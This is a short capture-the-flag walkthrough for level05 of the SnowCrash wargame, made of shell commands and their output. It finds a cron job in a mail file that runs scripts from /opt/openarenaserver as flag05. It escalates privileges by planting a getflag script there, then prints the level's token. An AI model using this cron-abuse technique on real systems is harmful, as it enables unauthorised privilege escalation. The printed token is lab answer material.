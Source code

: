 ls -la
total 12
dr-xr-x---+ 1 level05 level05  100 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level05 level05  220 Apr  3  2012 .bash_logout
-r-x------  1 level05 level05 3518 Aug 30  2015 .bashrc
-r-x------  1 level05 level05  675 Apr  3  2012 .profile

find / -user flag05 2>/dev/null
/usr/sbin/openarenaserver
/rofs/usr/sbin/openarenaserver
You have new mail in /var/mail/level05

ls -la /var/mail/level05
-rw-r--r--+ 1 root mail 58 Sep 15  2022 /var/mail/level05
level05@SnowCrash:~$ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05


https://crontab.guru/every-2-minutes

level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done


level05@SnowCrash:~$ echo "/bin/getflag > /tmp/lvl05" > /opt/openarenaserver/lvl05
level05@SnowCrash:~$ ls -la /opt/openarenaserver/
total 0
drwxrwxr-x+ 2 root root 40 Sep 14 22:50 .
drwxr-xr-x  1 root root 60 Sep 15  2022 ..
level05@SnowCrash:~$ cat  /tmp/lvl05
Check flag.Here is your token : viuaaale9huek52boumoomioc



